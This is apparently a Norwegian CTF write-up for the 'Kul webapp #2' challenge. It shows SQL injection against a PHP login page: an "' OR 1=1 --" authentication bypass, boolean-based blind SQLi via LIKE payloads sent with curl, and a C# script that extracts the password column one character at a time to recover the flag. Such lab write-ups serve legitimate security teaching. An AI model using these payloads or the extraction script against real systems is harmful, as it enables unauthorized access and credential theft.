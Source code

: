 # Kul webapp #2

> Kul webapp #2
>
> Da er endelig login system på plass! Registrering kommer snart!
> 
> ctf.uiactf.no:3005

![](00.png)

---

Nettsiden ser slik ut:

![](01.png)

Det skal nå være mulig å logge inn på siden i motsetning til `Kul webapp #1`-oppgaven.

Det er også en `mailto:`-link med en epostadresse som kanskje er et hint?

Vi klikker på `Login` og blir presentert med følgende:

![](02.png)

La oss bruke epostadressen ovenfra; `admin@minkulewebapp.finnesikke` og en `SQLi`-payload for å sjekke om dette kan være en `SQLi`-oppgave. Vi bruker `'` som passord og klikker `Logg inn`:

![](03.png)

*Feilmelding:*
```bash
Fatal error: Uncaught PDOException: SQLSTATE[HY000]: General error: 1 unrecognized token: "''';" in /usr/src/myapp/login.php:14 Stack trace: #0 /usr/src/myapp/login.php(14): PDO->query('SELECT * FROM b...') #1 /usr/src/myapp/index.php(23): include('/usr/src/myapp/...') #2 {main} thrown in /usr/src/myapp/login.php on line 14
```

Her kan det se ut som om det er noe krøll med måten databasen brukes og at applikasjonen er sårbar for `SQL-injection`.

Ved å endre payloaden vår for `Passord`-feltet til `' OR 1=1 --` klarer vi å omgå passordsjekken og får logget inn i aplikasjonen:

![](04.png)

Legg merke til `Logout`-lenken oppe i venstre hjørne. Vi er nå logget inn i aplikasjonen. Etter å ha sett litt rundt i applikasjonen og testet litt rundt `?page=`-variabelen for å se etter en `LFI`-sårbarhet, viser det seg at applikasjonen er en del sikrere enn tidligere. Eller?

La oss gå tilbake til `SQLi`-sårbarheten. Kanskje vi kan finne en måte å lese ut data fra databasen? I dette tilfellet er det ingen databasedata som presenteres i applikasjonen. Det gjør det vanskeligere å lekke dataene. Hvordan skal vi få eksfiltrert dem?

La oss se nærmere på hva som skjer når vi gir applikasjonen `'` som passord igjen:

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord='" | grep -E 'Notice|Fatal|Feil brukernavn eller passord'

<b>Notice</b>:  session_start(): Ignoring session_start() because a session is already active in <b>/usr/src/myapp/login.php</b> on line <b>2</b><br />
<b>Fatal error</b>:  Uncaught PDOException: SQLSTATE[HY000]: General error: 1 unrecognized token: &quot;''';&quot; in /usr/src/myapp/login.php:14
```

Her bruker jeg `curl` og `grep` for å filtrere bort en del unødvendig informasjon. Men vi ser at applikasjonen feiler. La oss nå prøve med et passord som fører til en gyldig `SQL`-query, men som **IKKE** omgår innloggingen. Jeg prøver med `test` som passord:

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=test" | grep -E 'Notice|Fatal|Feil brukernavn eller passord'

<b>Notice</b>:  session_start(): Ignoring session_start() because a session is already active in <b>/usr/src/myapp/login.php</b> on line <b>2</b><br />
<p class="text-danger">Feil brukernavn eller passord</p><main role="main" class="inner cover">
```

Og så prøver vi en siste gang, denne gang med en gyldig `SQL`-query, som omgår innloggingen. Jeg prøver som tidligere med `' OR 1=1 --` som passord:

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=' OR 1=1 --" | grep -E 'Notice|Fatal|Feil brukernavn eller passord'

<b>Notice</b>:  session_start(): Ignoring session_start() because a session is already active in <b>/usr/src/myapp/login.php</b> on line <b>2</b><br />
```

Denne gang ser vi ikke strengen `Feil brukernavn eller passord`. Dette er vesentlig. Vi vet nå, at så lenge vi kjører gyldige spørringer, så kan vi bruke strengen `Feil brukernavn eller passord` som indikasjon på om spørringen vår er sann eller usann.

Dette heter `Boolean based Blind SQL Injection (SQLi)` som betyr:

> Boolean-based SQL injection is a technique which relies on sending an SQL query to the database. This injection technique forces the application to return a different result, depending on the query. Depending on the boolean result (TRUE or FALSE), the content within the HTTP response will change, or remain the same. The result allows an attacker to judge whether the payload used returns true or false, even though no data from the database are recovered.

*Hentet fra: `https://beaglesecurity.com/blog/vulnerability/boolean-based-blind-sql-injection.html`*.

La oss se hvordan vi kan bruke denne teknikken til å eksfiltrere data.

Vi kan sjekke om `passord`-feltet matcher med wildcard (`%`) symbolet.

Payload: `' OR passord LIKE '%' --`

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=' OR passord LIKE '%' --" | grep -E 'Notice|Fatal|Feil brukern
avn eller passord'

<b>Notice</b>:  session_start(): Ignoring session_start() because a session is already active in <b>/usr/src/myapp/login.php</b> on line <b>2</b><br />
```

Resultatet indikerer `TRUE` (ingen `Feil brukernavn eller passord`-streng). Vi vet at `passord`-kolonnen finnes og matcher med `%`.

Hva med følgende payload:

Payload: `' OR passord LIKE 'X' --`

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=' OR passord LIKE 'X' --" | grep -E 'Notice|Fatal|Feil brukernavn eller passord'

<b>Notice</b>:  session_start(): Ignoring session_start() because a session is already active in <b>/usr/src/myapp/login.php</b> on line <b>2</b><br />
<p class="text-danger">Feil brukernavn eller passord</p><main role="main" class="inner cover">
```

Resultatet indikerer `FALSE` (vi ser `Feil brukernavn eller passord`-strengen). Vi vet at passordet **IKKE** er `X`.


Nå kan vi automatisere spørringene våre for å eksfiltrere `passord`-feltet. Vi prøver å sammenligne `passord` med en og en karakter i sammen med `%` helt til vi får et resultat som indikerer `TRUE`.

Eksempel på payloads:
- `' OR passord LIKE 'a%' --` (`FALSE`)
- `' OR passord LIKE 'b%' --` (`FALSE`)
- `' OR passord LIKE 'c%' --` (`TRUE`)
- `' OR passord LIKE 'd%' --` (`FALSE`)

Når vi får et `TRUE`-resultat kan vi bruke den aktuelle karakteren og utvide til neste karakter:

Eksempel på payloads:
- `' OR passord LIKE 'ca%' --` (`FALSE`)
- `' OR passord LIKE 'cb%' --` (`TRUE`)

Og så videre...

En siste kvalifisert gjetning før vi fortsetter. Vi forventer å finne et flagg i `passord`-kolonnen. La os sjekke om passordet matcher flaggformatet:

```bash
$ curl -s 'http://ctf.uiactf.no:3005/index.php?page=login.php' -d "epost=admin@minkulewebapp.finnesikke&login=login&passord=' OR passord LIKE 'UIACTF{%}' --" | grep -E 'Notice|Fatal|Feil
 brukernavn eller passord'

<b>Notice</b>:  session_start(): Ignoring session_start() because a session is already active in <b>/usr/src/myapp/login.php</b> on line <b>2</b><br />
```

^ **TRUE**-resultat!

Dette ser veldig lovende ut. La oss skrive et skript:

*`solve.cs`*
```csharp
var url = "http://ctf.uiactf.no:3005/index.php?page=login.php";
var handler = new HttpClientHandler() { UseCookies = false };
var c = new HttpClient(handler);

var charsToTry = "{}!abcdefghijklmnopqrstuvwxyzæøå0123456789_";
var charsFound = "";
var charIndex = 0;

while (!charsFound.Any() || charsFound.Last() != '}')
{
    var currentChar = charsToTry[charIndex];
    
    var content = new FormUrlEncodedContent(new[]
    {
        new KeyValuePair<string, string>("epost", "admin@minkulewebapp.finnesikke"),
        new KeyValuePair<string, string>("login", "login"),
        new KeyValuePair<string, string>("passord", $"' OR passord LIKE '{charsFound}{currentChar}%' --"),
    });

    var r = await c.PostAsync(url, content);
    var s = await r.Content.ReadAsStringAsync();
    
    var querySuccess = !s.Contains("Feil brukernavn eller passord");
    
    if (querySuccess) {
        charIndex = 0;
        charsFound = charsFound + currentChar;
        Util.ClearResults();
        charsFound.Dump();
    } else {
        charIndex++;
    }
}
```

`charsToTry` inneholder alle karakterene vi tror vi vil kunne finne i kolonnen:

```csharp
var charsToTry = "{}!abcdefghijklmnopqrstuvwxyzæøå0123456789_";
```

Vi kjører spørringer helt til siste karakter i `charsFound` er `}`, som er slutten på flagget.

Vipps så ser vi flagget bygges opp sakte men sikkert forran øynene våre:

![](06.gif)

---

## Flagg

`uiactf{passord_i_klartekst_er_ikke_bra}`

Jeg husker ikke 100% om flagget gikk gjennom slik, eller om jeg endret noe på capitalization basert på formatet på tidligere flagg. Jeg tror muligens jeg sendte inn flagget som dette:

`UIACTF{Passord_i_klartekst_er_ikke_bra}`

### Solves

Jeg er ganske fornøyd med å være i godt selskap her.

![](07.png)
